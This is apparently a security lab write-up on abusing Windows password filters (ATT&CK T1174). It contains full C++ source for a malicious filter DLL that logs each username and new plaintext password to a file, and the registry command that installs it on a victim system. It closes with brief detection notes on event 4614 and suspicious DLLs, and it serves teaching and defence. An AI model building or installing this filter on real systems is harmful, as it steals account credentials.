







# T1174: Password Filter

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That, of course means, that the password can be intercepted and logged.

## Execution

Password filters are registered in registry and we can see them here:


```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```


Or via regedit:



Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported correctly in order for this technique to work, since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	if (NULL == pFile)
	{
		return;
	}
	fprintf(pFile, "%s\r\n", szString);
	fclose(pFile);
	return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
	OutputDebugString(L"InitializeChangeNotify");
	writeToLog("InitializeChangeNotify()");
	return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
	PUNICODE_STRING AccountName,
	PUNICODE_STRING FullName,
	PUNICODE_STRING Password,
	BOOLEAN SetOperation)
{
	OutputDebugString(L"PasswordFilter");
	return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
	PUNICODE_STRING UserName,
	ULONG RelativeId,
	PUNICODE_STRING NewPassword)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
	{
		return true;
	}
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
	fclose(pFile);
	return 0;
}
```



Injecting the evil password filter into the victim system:


```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```




Testing password changes after the reboot - note how the password changes are getting logged:



## Observations

Windows event `4614` notifies about new packages loaded by the SAM:



Logging command line can also help in detecting this activity:



...especially, if the package has just been recently dropped to disk:



Also, it may be worth considering checking new DLLs dropped to `%systemroot%\system32` for exported `PasswordChangeNotify`function:



## References





